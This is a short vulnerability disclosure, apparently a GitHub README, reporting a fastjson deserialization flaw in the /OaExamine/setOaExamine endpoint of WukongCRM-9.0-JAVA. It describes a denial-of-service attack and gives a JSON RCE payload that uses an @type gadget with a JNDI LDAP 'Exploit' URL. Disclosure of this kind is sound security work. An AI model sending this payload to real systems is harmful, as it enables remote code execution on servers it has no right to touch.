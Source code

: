 # [WukongCRM-9.0-JAVA](https://github.com/WuKongOpenSource/WukongCRM-9.0-JAVA)

## fastjson deserialization vulnerability

Similar to CVE-2024-23052，The /OaExamine/setOaExamine path of WukongCRM-9.0-JAVA also has a fastjson deserialization vulnerability.

Class：OaExamineController

Path：/OaExamine/setOaExamine

Directly deserializing the request body may lead to a fastjson deserialization vulnerability:

![image-20250826143725274](.\images\image-20250826143725274.png)

![image-20250826143717496](.\images\image-20250826143717496.png)

By default, a deserialization denial of service attack is possible:

![image-20250826143809607](.\images\image-20250826143809607.png)

With specific dependencies and autoTypeSupport enabled, deserialization can be used to achieve RCE：

```json
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploit","Object":"a"}
```

![image-20250826153102932](.\images\image-20250826153102932.png)

![image-20250826153128766](.\images\image-20250826153128766.png)